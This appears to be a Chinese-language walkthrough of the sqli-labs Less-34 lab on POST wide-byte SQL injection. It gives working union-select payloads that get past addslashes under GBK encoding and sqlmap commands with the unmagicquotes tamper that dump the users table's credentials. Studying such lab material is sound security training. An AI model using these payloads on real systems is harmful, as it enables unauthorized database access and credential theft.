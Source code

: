```yaml
---
title: less34
url: https://www.yuque.com/u29002979/ep2zrx/ql1lqmqlbybenghx
---
```


```bash
$uname = addslashes($uname1);
$passwd= addslashes($passwd1);

mysql_query("SET NAMES gbk");
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
```

post型宽字节注入 ，单引号'闭合

`admin' or 1=1-++`

> Hint: The Username you input is escaped as : admin' or 1=1-++
> Hint: The Password you input is escaped as :

在登录框尝试字符登录发现有转义&#x20;
&#x20;因为是post提交不能使用url编码，
但是可以**使用十六进制编码绕过**，但是需要使用三个字节，
最好的 办法是是**使用汉字**(一些汉字是三个字节的就可以将后面的\消耗) <a name="rJWqQ"></a>

# post型宽字节注入

<a name="oaebC"></a>

## 爆破数据库名称

`uname=汉' union select 1,database()--+` <a name="ABEKW"></a>

## 爆破数据库表名称

`**uname=汉' union select 1,group_concat(table_name)from information_schema.tables where table_schema=database()--+` <a name="ihxEF"></a>

## 爆破字段名称

爆破字段的时候**需要将数据表的名字**进行十六进制编码，防止转义 &#x20;
users的16进制是0x7573657273

`**uname=汉'** union select 1,group_concat(column_name)from information_schema.columns where table_schema=database() and table_name=0x7573657273--+` <a name="K0Bi6"></a>

## 爆破字段内容

`**uname=汉'** union select 1,(select group_concat(username,0x7e,password) from users)--+`

<a name="eRAU0"></a>

# sqlmap

> **--tamper="unmagicquotes.py"宽字节注入**

<a name="Eou5c"></a>

## 注入点检查

`sqlmap -u http://192.168.31.193/Less-34/ --data="passwd=admin&uname=admin" --batch --tamper="unmagicquotes.py"` <a name="FwuSB"></a>

## 爆破数据库名称

`sqlmap -u http://192.168.31.193/Less-34/ --data="passwd=admin&uname=admin" --batch --tamper="unmagicquotes.py"  --current-db` <a name="cWP4j"></a>

## 爆破数据表名称

`sqlmap -u http://192.168.31.193/Less-34/ --data="passwd=admin&uname=admin" --batch --tamper="unmagicquotes.py"  -D "security" --tables` <a name="HBofh"></a>

## 爆破字段名称

`sqlmap -u http://192.168.31.193/Less-34/ --data="passwd=admin&uname=admin" --batch --tamper="unmagicquotes.py" -D "security" -T "users" --columns` <a name="YOLQ5"></a>

## 脱库

`sqlmap -u http://192.168.31.193/Less-34/ --data="passwd=admin&uname=admin" --batch --tamper="unmagicquotes.py" -D "security" -T "users" --dump`
